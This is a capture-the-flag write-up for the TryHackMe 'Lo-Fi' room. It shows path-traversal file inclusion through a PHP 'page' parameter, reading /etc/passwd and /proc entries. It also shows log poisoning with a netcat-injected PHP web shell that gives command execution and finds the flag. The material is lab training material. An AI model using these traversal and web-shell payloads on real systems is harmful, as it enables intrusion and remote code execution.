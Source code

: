 # Lo-Fi

https://tryhackme.com/r/room/lofi

**Want to hear some lo-fi beats, to relax or study to? We've got you covered!**

## Overview

The challenge asks you to analyse a website and highlight, find the flag in the root directory.
In the description of the task, the author mentions two other LFI/RFI rooms.
There is only one task in the challenge

### Task 1

Climb the filesystem to find the flag!

The website is a php based solution where youtube videos linked in iframes are displayed.

#### Step 1 - Enumeration

Two parameters can be modified on the home page
http://10.10.83.116/?search=

http://10.10.83.116/?page=

search parameter not vulnerable

page parameter is better we can use file extraction

#### Step 2 - Find LFI

As a first step, let's look at the following methods

http://10.10.83.116/?page=/etc/passwd

The answer in this case is not yet positive: "HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!"

Ok, testing with full uri: http://10.10.83.116/?page=../../../../../../../../etc/passwd

![passwd file is ok](passwd.png)

#### Step 3 - Log poisoning 

How can we find the file if there is no hint at the beginning of the challenge?

First of all, we test the system for log poisoning vulnerability.

We know from the response header it is a Apache/2.2.22 (Ubuntu) server. So check these:

/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd-error.log
/var/log/httpd-access.log
/var/log/httpd/access_log
/var/log/auth.log

They don't work, but the proc file system may still help.

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/cmdline - Actual process name

Answer: /usr/sbin/apache2-DFOREGROUND

Check file descriptors under proc. 

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6

Answer: 

![apache log file](fd_1.png)

We can use it for RCE. 

poison the server with netcat:
``` 
nc 10.10.83.116 80
GET /<?php system($_GET['c']); ?>

HTTP/1.1 404 Not Found
Date: Sat, 25 Jan 2025 16:44:56 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 278
Connection: close
Content-Type: text/html; charset=iso-8859-1
```
#### Step 4 - Finding the flag 

Where is flag? 
http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6&c=find%20/%20-name%20%22flag.txt%22%202%3E/dev/null

Answer:  "/flag.txt " 400 507 

We can look at the contents of the flag using the error that was originally exploited.
http://10.10.83.116/?page=../../../../../../../flag.txt


The takeaway from the writeup is that even if there is no hint, it is still possible to get the file out of the system.

